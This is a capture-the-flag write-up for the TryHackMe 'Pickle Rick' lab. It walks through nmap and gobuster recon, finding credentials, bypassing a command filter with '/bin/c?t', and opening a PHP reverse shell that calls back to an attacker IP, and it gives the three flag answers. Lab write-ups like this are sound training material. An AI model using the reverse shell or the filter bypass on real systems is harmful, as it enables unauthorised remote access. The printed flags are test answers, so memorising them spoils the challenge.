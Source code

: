 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Website

* In source code there is this comment:
""
    Note to self, remember username!

    Username: R1ckRul3s
""

* run nmap command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
Result:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-01 12:10 CEST
Nmap scan report for 10.10.38.165
Host is up (0.085s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 48:2b:8f:aa:8a:8b:0f:4c:9e:5e:ed:bc:14:89:22:39 (RSA)
|   256 a4:d6:64:ec:c4:db:82:2f:63:65:b3:e1:66:a6:91:44 (ECDSA)
|_  256 0d:8e:10:0b:cd:94:20:b4:41:21:ac:14:62:d6:8b:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
```

* in /robots.txt find string *Wubbalubbadubdub*

* connecting to port 22 (ssh) using username R1ckRul3s and passwrod Wubbalubbadubdub doesn't work (error: R1ckRul3s@10.10.38.165: Permission denied (publickey).)

* tried to find hidden files/strings in images in assets/ directory: nothing found

* run
```
nikto -h 10.10.38.165
```

* meglio gobuster con php extension:
```
gobuster -w /usr/share/wordlists/directory-list-2.3-small.txt -u http://10.10.38.165/ -t 20 -x php
```
result:
*=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.38.165/
[+] Threads      : 20
[+] Wordlist     : /usr/share/wordlists/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2023/05/01 12:51:37 Starting gobuster
=====================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)*

* go to *login.php* (img3) and use credetials R1ckRul3s:Wubbalubbadubdub

## First ingredient

* run ```ls``` command in command panel and get these results:
**Sup3rS3cretPickl3Ingred.txt**
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

* we need to cat Sup3rS3cretPickl3Ingred.txt file but a filter is placed (img4)

* bypass it using the following command (img5):
```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```
first flag found: mr. meeseek hair

## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php (img6):
```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data (?)

* then, (img8)

3rd ingredient: fleeb juice
